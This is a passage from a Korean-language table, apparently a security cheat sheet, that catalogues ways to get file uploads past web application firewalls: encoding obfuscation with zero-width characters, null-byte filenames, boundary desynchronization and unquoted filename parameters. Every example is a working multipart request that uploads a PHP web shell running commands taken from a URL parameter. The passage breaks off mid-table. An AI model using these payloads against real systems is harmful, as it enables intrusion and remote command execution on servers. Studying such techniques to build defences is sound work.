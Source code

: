 <table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Encoding Obfuscation</td>
      <td><pre><code>--xxx
Content-Disposition: form-data; name="file\u200B"; filename="%2e%2e%2ffile.php"
&lt;?php system($_GET['cmd']); ?&gt;
--xxx--</code></pre></td>
      <td>Zero‑Width 문자(<code>\u200B</code>)와 percent-encoding(<code>%2e</code>) 등을 혼합해, WAF 서명·로깅 탐지를 우회한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Null Byte Injection</td>
      <td><pre><code>--xxx
Content-Disposition: form-data; name="file"; filename="image.png\x00.php"
&lt;?php system($_GET['cmd']); ?&gt;
--xxx--</code></pre></td>
      <td>filename 값에 널 바이트(<code>\x00</code>)를 삽입하여 문자열 종료를 유도, WAF의 확장자 필터링을 무력화하고 백엔드가 악성 파일을 저장하도록 한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>


### Desync
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Boundary Desynchronization</td>
      <td><pre><code>--xxx
Content-Disposition: form-data; name="file"; filename="evil.php"
&lt;?php system($_GET['cmd']); ?&gt;
--xxx</code></pre></td>
      <td>경계 종료 마커(<code>--</code>)를 누락시켜 WAF 검증을 통과시키고, 백엔드 파서는 여전히 파일을 수락하여 악성 웹 셸을 저장하도록 만든다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Quoted Parameter Omission</td>
      <td><pre><code>--xxx
Content-Disposition: form-data; name="file"; filename=backdoor.php
&lt;?php system($_GET['cmd']); ?&gt;
--xxx--</code></pre></td>
      <td>filename 매개변수의 따옴표를 제거해 WAF가 파싱하지 못하게 하고, 백엔드 파서는 이를 수락하여 우회 공격을 가능하게 한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
